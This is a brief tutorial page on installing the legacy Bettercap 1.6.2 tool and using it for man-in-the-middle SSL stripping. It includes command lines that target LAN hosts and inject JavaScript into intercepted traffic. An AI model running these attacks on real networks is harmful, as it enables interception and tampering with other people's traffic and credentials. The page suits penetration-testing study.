 ```yaml
---
description: Bettercap 1.6.2 is a tool for Man In The Middle Attack and SSL Strip . You will find a series of practical example commands for running Bettercap 1.6.2.
---
```


## Bettercap 1.6.2 Installation

BetterCAP is a powerful, flexible, and portable tool created to perform various types of MITM attacks against a network

Bettercap 1.6.2 is legacy tool, but it performs ssl strip much better then Bettercap 2.x

Install Ruby Gem

```bash
apt install -y ruby-full libpcap-dev
gem update --system
gem install bettercap
```

Bettercap 1.6.2 installs the executable to /usr/local/bin/bettercap

Bettercap 2.x installs the executable to /usr/bin/bettercap

Both Bettercap 1.6.2 and 2.x shares the same executable name. In order to privet any collisions we will rename the Bettercap 1.6.2 executable to `bettercap1.6.2`.

```bash
mv /usr/local/bin/bettercap /usr/local/bin/bettercap1.6.2
```

From this point you can run bettercap1.6.2 for `Bettercap 1.6.2` and bettercap for `Bettercap 2.x`

## Bettercap 1.6.2 SSL Strip Examples

**Basic SSL Strip Example**

```bash
bettercap1.6.2 -X -T 192.168.1.104 --proxy
```

**SSL Strip With XSS Example**

```bash
bettercap1.6.2 -X -T 192.168.3.104 --proxy --proxy-module injectjs --js-data "<script>alert('SSL STRIP, Script Injection')</script>"
```

## Dbug

To find that Bettercap installation from ruby gems:

```bash
gem environment
```

the path should be under **GEM PATHP** for example:

```bash
/var/lib/gems/2.7.0/gems/bettercap-1.6.2
```
